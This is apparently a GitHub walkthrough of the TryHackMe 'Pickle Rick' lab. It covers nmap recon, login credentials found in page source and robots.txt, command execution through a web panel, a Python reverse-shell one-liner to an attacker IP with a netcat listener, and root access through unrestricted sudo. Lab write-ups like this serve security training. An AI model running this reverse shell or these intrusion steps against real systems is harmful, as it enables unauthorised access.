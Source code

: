 # TryHackMe picklerick room walkthrough

## Step 1, Recon 
Command used: sudo nmap -sCV 10.10.17.255 -vv

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0eaba8073a9cb62acf6b39e4bd9a4838 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt/Op+HObSeyJIURfjI5VLnOkRJpQ6WRAAgGA1gk+A5b1ccg8QyeUo8OXjXcxIKcHKvkKvnhtcAx+K3EJ6BTMvOkpObnG2zTD8efpbTUq0D4Er8G/qBJa5zXjlOfFW8u+bLQhG2TMsdIeVzV+m3oiOIyWkaAlODmkQYtULQE/nInP9utJfYEFAGReNmEiCB7bFBYzheU+7arSXN9rTPzGwtkIv9pzyhKqkvojAGaIXyT/xVuSX59SgAuQc96ibRxuEO3n/O1/kHTRXz3iiZMr/5lxx9TJMpnC4SFQlDXIjejgslqoY5K0FqD5n4/W/CUZJjJY/eywh1fntP9XEXRQr
|   256 2f0708ed21255250e549396fdc4acf48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBdCRR1bRZH+jg804vKOO0ch+sodX47r7FpkC9kbedHmLn5saVQbvNhwyeMRC+n6z8KiRCENxCvy2tYy6wOfgzs=
|   256 ef4c6a2ee721418cb0ff51cdba07e877 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJbjyAIEhQHoJmKZDGeLX2EnPWGdesHUSF2CgWg0XDsF
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
By visiting the webpage. I got the following
<img src="images/picklerick_0001.png">

While poking around in the source code of the index webpage, I have found a html comment which tells us the username of the login page (I have redacted the username)

<img src="images/picklerick_0002.png">

```
<!--

Note to self, remember username!

Username: ██████████████

-->
```

Afterwards, while taking a look at the robots.txt file, I got a strange message

<img src="images/picklerick_0003.png">

While it looks like nonsense at first, it looked like a password, so I decided to try it in the login page.

<img src="images/picklerick_0004.png">

By trying to login with the found username and the strange text in the robots.txt file, we are in!

<img src="images/picklerick_0005.png">

## Step 2, Exploiting

The first thing we will see will be the a text box that seemingly allow us to enter commands and the server will execute it. I tried to get the directory listing

<img src="images/picklerick_0006.png">

However, while trying to read the file with cat, I got this

<img src="images/picklerick_0007.png">

Same with head

<img src="images/picklerick_0008.png">

But then... I tested less, and I got no errors!

<img src="images/picklerick_0009.png">

And by doing so, we got the the first ingredient!

<img src="images/picklerick_0010.png">

While making sure that I have not left anything behind, I have found base64 encoded text in command panel source:
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`
	
When decoded, it reads "rabbit hole", which meant nothing in this case. Nice troll :smiley:

Now, we are going to try and get a reverse shell with python.

Setting up Netcat handler

<img src="images/picklerick_0012.png">

Command used

```nc -lvnp 1852```

Setting up reverse shell

<img src="images/picklerick_0013.png">

Command used

```export RHOST="10.18.16.11";export RPORT=1852;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

...and we caught the shell!

<img src="images/picklerick_0014.png">

Next up, we will have to stabilize the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
ctrl+Z
stty raw -echo;fg
```	

And with that, we can now kill processes without the fear of killing our reverse shell

<img src="images/picklerick_0015.png">

Now, we have to find the second ingredient. While looking around for possible locations, I found it in the /home/rick directory

<img src="images/picklerick_0016.png">

Only one ingredient left!

## Step 3, privilege escalation

To get the final ingredient, we will have to escalate our privileges, and with `sudo -l`, we found out that we can run any commands with sudo!

<img src="images/picklerick_0020.png">

Checking the /root directory, I have found our third and last ingredient

<img src="images/picklerick_0021.png">

<br>

# Please star this repository if you found this helpful, thanks!